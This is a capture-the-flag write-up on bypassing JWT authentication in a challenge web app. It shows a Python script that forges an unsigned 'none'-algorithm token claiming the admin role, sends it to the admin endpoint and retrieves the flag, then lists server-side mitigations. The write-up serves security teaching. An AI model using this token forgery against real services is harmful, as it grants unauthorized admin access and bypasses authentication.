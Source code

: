 # Bypassing JWT Authentication in WebApp Challenge

## Challenge Description

In this CTF challenge, we were presented with a web application that used JWT (JSON Web Tokens) for authentication. The goal was to bypass the authentication mechanism and access the admin panel to retrieve the flag.

## Initial Analysis

The web application used a login form that generated a JWT token upon successful authentication. The token was stored in a cookie and used for subsequent requests. Here's what the login request looked like:

```http
POST /api/login HTTP/1.1
Host: challenge.ctf.com
Content-Type: application/json

{
    "username": "user",
    "password": "password123"
}
```

The response included a JWT token:

```json
{
    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjE1MjQ5MDIwfQ.7B9yqwK3Z4Y4Y4Z4Y4Z4Y4Z4Y4Z4Y4Z4"
}
```

## Vulnerability Discovery

After analyzing the token structure using [jwt.io](https://jwt.io), I noticed that the token used the HS256 algorithm for signing. The payload contained two interesting fields:

```json
{
    "user": "user",
    "role": "user",
    "iat": 1615249020
}
```

The presence of a "role" field suggested that the application might use this for authorization checks.

## Exploitation

I used the following Python script to attempt various JWT attacks:

```python
import jwt
import requests

def try_none_algorithm():
    payload = {
        "user": "admin",
        "role": "admin",
        "iat": 1615249020
    }
    
    # Create token with 'none' algorithm
    token = jwt.encode(
        payload,
        None,
        algorithm='none'
    )
    
    return token

def main():
    token = try_none_algorithm()
    print(f"Generated Token: {token}")
    
    # Try to access admin panel
    response = requests.get(
        'https://challenge.ctf.com/admin',
        headers={'Authorization': f'Bearer {token}'}
    )
    
    print(response.text)

if __name__ == '__main__':
    main()
```

The application accepted the modified token with the 'none' algorithm, allowing us to escalate privileges to admin.

## Flag Retrieval

After accessing the admin panel with our forged token, we found the flag in the response:

```
CTF{jwt_n0n3_4lg0_byp4ss_2024}
```

## Lessons Learned

This challenge highlighted several important security considerations:

1. Always validate JWT algorithms on the server side
2. Never accept 'none' as a valid algorithm
3. Use strong, securely stored secret keys
4. Implement proper signature verification

## Tools Used

- [jwt.io](https://jwt.io) - For token analysis
- [PyJWT](https://pyjwt.readthedocs.io/) - Python JWT library
- Burp Suite - For intercepting and modifying requests

## References

- [JWT Security Best Practices](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)
- [OWASP JWT Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html) 